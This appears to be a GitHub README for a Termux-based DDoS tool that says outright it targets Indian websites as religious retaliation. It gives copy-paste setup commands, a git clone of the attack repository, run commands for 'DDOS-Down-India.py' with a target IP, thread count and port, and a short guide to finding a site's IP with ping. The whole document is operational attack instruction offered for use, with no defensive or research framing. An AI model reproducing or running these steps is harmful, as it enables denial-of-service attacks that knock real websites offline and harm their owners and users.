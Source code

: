 # DDOS
Our Target Indian Site For Respect Our Prophet Nabi Karim Sallallahu Alaihi Wasallam

# 1st Time Run Or Install DDOS Command

```
termux-setup-storage
pkg update
pkg upgrade
pkg install git
apt install git
pkg install python
pkg install python2
pkg install python3
curl -LO https://its-pointless.github.io/setup-pointless-repo.sh
bash setup-pointless-repo.sh
apt install dnsutils
python3 -m pip install --upgrade
pkg install pip2
pip2 install requests
pip2 install mechanize
pkg update && pkg upgrade -y
rm -rf DDOS
git clone https://github.com/Cyber-Nirob-Official/DDOS
cd DDOS
python DDOS-Down-India.py -s (IP) -t 135 -p 80
python3 DDOS-Down-India.py -s (IP) -t 135 -p 80
```
# 2nd Time Run
```
cd
cd DDOS
python DDOS-Down-India.py -s (IP) -t 135 -p 80
python3 DDOS-Down-India.py -s (IP) -t 135 -p 80
```
(IP) = Remove () Or Enter Website IP

# How To Find IP?
Open Termux App
Example :
ping www.facebook.com
$Then Enter
Then Show Website IP

# Termux Setup Copy All Or Paste
```
termux-setup-storage
pkg update
pkg upgrade
pkg install git
apt install git
pkg install python
pkg install python2
pkg install python3
curl -LO https://its-pointless.github.io/setup-pointless-repo.sh
bash setup-pointless-repo.sh
python3 -m pip install --upgrade
pkg install pip
pkg install pip2
pip2 install requests
pip2 install mechanize
pkg install ruby
gem install lolcat
pkg install lolcat
pip install lolcat
pip2 install lolcat
pip install bs4
pip install futures
pkg update && pkg upgrade -y
pip2 install mechanize bs4 lolcat
```
